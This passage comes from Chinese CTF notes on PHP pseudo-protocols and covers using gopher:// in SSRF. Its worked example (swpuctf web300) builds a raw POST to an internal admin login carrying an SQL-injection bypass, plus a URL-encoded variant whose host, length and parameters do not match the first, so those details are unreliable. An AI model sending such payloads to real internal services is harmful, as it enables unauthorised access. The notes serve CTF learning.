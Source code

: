 zlib://协议同理

小结

---

![](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/CTF/ctf/文件包含/php伪协议/images/62B46E19F72944E3813C7FB349B69B6C994b78d9b1e4.png)



以后再遇到继续补充

gopher协议

不属于php伪协议，仅作记录

在ssrf时常常会用到gopher协议构造post包来攻击内网应用。其实构造方法很简单，与http协议很类似。

不同的点在于gopher协议没有默认端口，所以需要指定web端口，而且需要指定post方法。回车换行使用%0d%a。注意post参数之间的&分隔符也要进行url编码

这是一个具体的gopher协议的例子（swpuctf web300）：

gopher://172.16.181.166:80/_POST /admin/wllmctf_login.php HTTP/1.1%0d%0a
Host: 172.16.191.166%0d%0a
User-Agent: curl/7.43.0%0d%0a
Accept: */*%0d%0a
Content-Length: 29%0d%0a
Content-Type: application/x-www-form-urlencoded%0d%0a%0d%0a
user=admin' or '1'='1%26password=admin


注意：如果ssrf的点是get参数，因为处于url中，则需要进行一次url编码，上述例子将会编码成：

gopher%3A%2f%2f172.16.181.166%3A80%2f_POST%20%2fadmin%2fwllmctf_login.php%20HTTP%2f1.1%250d%250aHost%3A%20172.16.191.166%250d%250aUser-Agent%3A%20curl%2f7.43.0%250d%250aAccept%3A%20%2a%2f%2a%250d%250aContent-Length%3A%2043%250d%250aContent-Type%3A%20application%2fx-www-form-urlencoded%250d%250a%250d%250ausername%3Dadmin%27%20and%20%271%27%3D%272%2526password%3Dadmin


参考：

php 伪协议
